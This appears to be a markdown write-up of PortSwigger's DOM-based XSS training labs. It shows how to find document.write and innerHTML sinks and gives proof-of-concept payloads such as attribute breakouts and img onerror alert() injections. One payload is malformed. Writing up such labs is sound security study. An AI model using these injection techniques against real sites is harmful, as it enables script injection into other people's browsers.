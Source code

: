 All Labs: https://portswigger.net/web-security/cross-site-scripting/dom-based

## Lab 1: [DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)
- Search for Any Random String > Inspect in Firefox (better) > Find the Searched String

![image](https://github.com/user-attachments/assets/1e9f6014-208e-4b8f-a1ce-db9fa2c1e7bf)

- Inspect the query > the Query is directly passing by Document.write() to DOM via <img> tag.
- Injection: `" onload="alert("qwerty")">` in search section
- <img src="/resources/images/tracker.gif?searchTerms=`" onload="alert("qwerty")">`
---
OR
---
- Injection: `">< svg onload="alert("qwerty")>` in search section
- <img src="/resources/images/tracker.gif?searchTerms=`">< svg onload="alert("qwerty")>`

## Lab 2: [DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)
- Analyse the JS code, `source location.search` updating the DOM: ![image](https://github.com/user-attachments/assets/b66c8c00-f07b-416e-8d3c-5fab24d55c78)
- Insert the storedId random value in URL query & observe the DOM: ![image](https://github.com/user-attachments/assets/2d92d551-25ba-478b-a78d-8144a66e0b8e)
- Inserted value will show up in app functionality: ![image](https://github.com/user-attachments/assets/abfc1427-ffe8-4296-a333-f2b5fa5c65f8)
- Give storeId `"><script>alert(123)</script></select>` ![image](https://github.com/user-attachments/assets/8d729fdf-619d-46f7-8544-db9f982a5edc)
- The innerHTML sink doesn't accept script elements on any modern browser, nor will svg onload events fire.
- This means you will need to use alternative elements like `img or iframe` Event handlers such as onload and onerror can be used in conjunction with these elements.
- For example: `element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'`

## Lab 3: [DOM XSS in innerHTML sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)
- Check innerHTML, Analyse the JS code
- ![image](https://github.com/user-attachments/assets/dd879d32-3a94-481e-87ba-67adf72e6780)
- `<img src=1 onerror=alert(123)>` will the break the Search function.

# Lab 4: 
-  jQuery's attr() function can change the attributes of DOM elements.



